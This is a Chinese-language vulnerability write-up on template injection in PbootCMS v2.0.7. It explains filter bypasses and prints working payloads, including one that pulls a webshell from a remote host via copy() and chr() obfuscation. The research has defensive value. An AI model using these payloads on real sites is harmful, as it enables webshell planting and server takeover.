





PbootCMS v2.0.7 模板注入
========================

一、漏洞简介
------------

二、漏洞影响
------------

PbootCMS v2.0.7

三、复现过程
------------

### 漏洞分析

文件：`apps/home/controller/ParserController.php`

精简后的代码如下：

    <?php
        public function parserIfLabel($content){
            $pattern = '/\{pboot:if\(([^}^\$]+)\)\}([\s\S]*?)\{\/pboot:if\}/';
            if (preg_match_all($pattern, $content, $matches)) {
                $count = count($matches[0]);
                for ($i = 0; $i < $count; $i ++) {
                    $danger = false;

                    // 带有函数的条件语句进行安全校验
                    if (preg_match_all('/([\w]+)([\\\s]+)?\(/i', $matches[1][$i], $matches2)) {
                        foreach ($matches2[1] as $value) {
                            if (function_exists($value)){
                                $danger = true;
                                break;
                            }
                        }
                    }

                    // 过滤特殊字符串
                    if (preg_match('/(\$_GET\[)|(\$_POST\[)|(\$_REQUEST\[)|(\$_COOKIE\[)|(\$_SESSION\[)|(file_put_contents)|(fwrite)|(phpinfo)|(base64_decode)|(`)|(shell_exec)|(eval)|(system)|(exec)|(passthru)/i', $matches[1][$i])) {
                        $danger = true;
                    }

                    // 如果有危险函数，则不解析该IF
                    if ($danger) {
                        continue;
                    }

                    eval('if(' . $matches[1][$i] . '){$flag="if";}else{$flag="else";}');
                    ...
    ?>

这里大概的意思就是，在模板的`if`语句中，通过正则找到函数的结构，然后将其传入`function_exists`，如果该函数存在则不执行下面的`eval()`

如果可以编辑模板文件，或者存在模板注入的话，那么就可以尝试绕一下这些限制，看能不能往`eval()`里面注入代码。

在后台翻了一下，没有看到有对模板文件进行修改的地方，所以考虑模板注入。

在后台的公司信息栏目插入符合模板`if`语句的

### Payload:

`{pboot:if(1)}OK{/pboot:if}`





可以看到这里的模板语句已经解析了。所以这里是存在模板注入的。

但是这个程序是有对所有参数进行全局的`htmlspecialchars`和`addslashes`的，在结合上面的正则，导致我们不能使用很多字符。

有：`'"$}`和反引号、`\x00`等等。

根据这个限制我很快有了一种思路：

php的语法有一些具有函数结构，但是却不是函数的关键字。

例如：`include()`、`array()`等。

现在思路就很明确了，既然
`include()`可以绕过函数检测这个点，那么往里面传参数就完事了。

接下来就是要想办法在当前限制下构造出一个字符串往`include()`里面传了。

-   思路1：

```{=html}
<!-- -->
```
-   通过`$_SERVER`数组传，但是前面的正则ban了`$`，所以这个思路不行。

```{=html}
<!-- -->
```
-   思路2：

```{=html}
<!-- -->
```
-   使用`get_defined_vars()`从get的参数里面获取，但是`get_defined_vars`不能过`function_exists`，所以也不行。

```{=html}
<!-- -->
```
-   思路3：

```{=html}
<!-- -->
```
-   PHP7.2版本开始：不带引号的字符串是不存在的全局常量的话，那么则转化成他们自身的字符串。

    意思就是`echo a`=\>`define(a, 'a');echo a;`


那么就可以不使用引号，从而构造字符串了。

所以我们可以在后台上传一个图片马，然后用`include()`去包含getshell了。

但是这里有个问题，上传后的图片路径会有数字和`/`、`.`，而数字和`/`、`.`不带引号是不会触发上面说的trick的。

也就是现在能构造任意字母了，但是还需要数字和`/`、`.`

`/`和`.`其实很好办，PHP有几个预定义常量如`__FILE__`，获取当前的文件的绝对路径

在程序里打印一下看看


`.`和`/`都有，但是直接用数组的方式去取是会报错的。

这时候就需要用到刚刚说的`array()`了，将`__FILE__`放进`array()`里之后再利用去二维数组的方式去取就不会报错了。**（因为这里是将常量赋值进了数组里面，不是直接对常量进行数组的方式取值，所以不会报错。）**

    var_dump(array(__FILE__)[0][-4]); //=.
    var_dump(array(__FILE__)[0][-21]); //=/



现在就缺数字了，而且该数字还必须是String型的数字。

PHP下还有带有数字的常量，例如`__LINE__`、`__PHP_VERSION__`，但是这些数字可能不太够，而且也不太能确定具体得值，不够\"一般化\"。

于是开始寻找别的办法。

于是我开始全局搜索`define(`，寻找在程序中定义的，可控或者含有数字的常量。

文件：`core/view/Paging.php`

    <?php
        ...
      public function limit($total = null, $morePageStr = false){
            // 起始数据调整
            if (! is_numeric($this->start) || $this->start < 1) {
                $this->start = 1;
            }
            if ($this->start > $total) {
                $this->start = $total + 1;
            }

            // 设置总数
            if ($total) {
                $this->rowTotal = $total - ($this->start - 1);
            }

            // 设置分页大小
            if (! isset($this->pageSize)) {
                $this->pageSize = get('pagesize') ?: Config::get('pagesize') ?: 15;
            }

            // 分页数字条数量
            $this->num = Config::get('pagenum') ?: 5;

            // 计算页数
            $this->pageCount = @ceil($this->rowTotal / $this->pageSize);

            // 获取当前页面
            $this->page = $this->page();

            // 定义相关常量，用于方便模板引擎解析序号等计算和调用
            define('ROWTOTAL', $this->rowTotal);
            define('PAGECOUNT', $this->pageCount);
            define('PAGE', $this->page);
            define('PAGESIZE', $this->pageSize);

            // 注入分页模板变量
            $this->assign($morePageStr);

            // 返回限制语句
            return ($this->page - 1) * $this->pageSize + ($this->start - 1) . ",$this->pageSize";
        } 
      // 当前页码容错处理
        private function page(){
            $page = get('page', 'int') ?: $this->page;
            if (is_numeric($page) && $page > 1) {
                if ($page > $this->pageCount && $this->pageCount) {
                    return $this->pageCount;
                } else {
                    return $page;
                }
            } else {
                return 1;
            }
        }
      ...
    ?>

这里是该程序的一个分页类，可以看到里面有一个叫`PAGE`的常量，且该常量可控。

那么就寻找调用了这个分页类的地方传入`page`就好。

例如：`http://www.0-sec.org/?keyword=123&page=0123456789`



且该常量为string类型。

至此，路径中需要的字符都构造出来了，只需要用`.`连接即可。

### 漏洞复现

1.  上传图片马


1.  得到路径`static/upload/image/20200417/1587111957160139.png`

2.  根据路径构造payload

-   `include(s.tatic.array(__FILE__)[0][0].upload.array(__FILE__)[0][0].image.array(__FILE__)[0][0].array(PAGE)[0][2].array(PAGE)[0][0].array(PAGE)[0][2].array(PAGE)[0][0].array(PAGE)[0][0].array(PAGE)[0][4].array(PAGE)[0][1].array(PAGE)[0][7].(马赛克).png)`

    将payload放入模板的`if`语句中

3.  模板注入



4.  访问带有分页类且又能输出公司地址的地方


Getshell成功！！！

### 补充

一开始在研究这个漏洞的时候，就觉得有点麻烦，又要上传图片马，又要构造图片马的路径，不能一个payload直接打，十分麻烦。

于是就跑去问了问P师傅\*\*（P牛，永远滴神！）\*\*

P师傅理解了我的需求后，直接甩了个payload给我


看到后我才想起，以前就看过P师傅的一篇文章里面的一个trick：在一个函数的括号前面加入一些控制字符，PHP一样能识别改函数并执行。利用这个trick就可以执行任意函数了。

于是根据P师傅给的思路再结合程序本身的一些其他的黑名单限制，很快我就构造出了一个通用的Payload

    {pboot%3aif(copy%01(chr%01(104).chr%01(116).chr%01(116).(马赛克),chr%01(49).chr%01(46).chr%01(112).chr%01(104).chr%01(112)))}asdasdasd{/pboot%3aif}

利用一个`copy()`函数到远程服务器上下载一个webshell放在本地，这里的webshell地址通过`chr()`函数一个个还原出shell地址一个个拼接。

向模板注入该payload：


访问前台触发点：


则会去`http://mock.x.dnshia.cn/shell`下载webshell，并保存到`1.php`


参考链接
--------

> https://xz.aliyun.com/t/7628
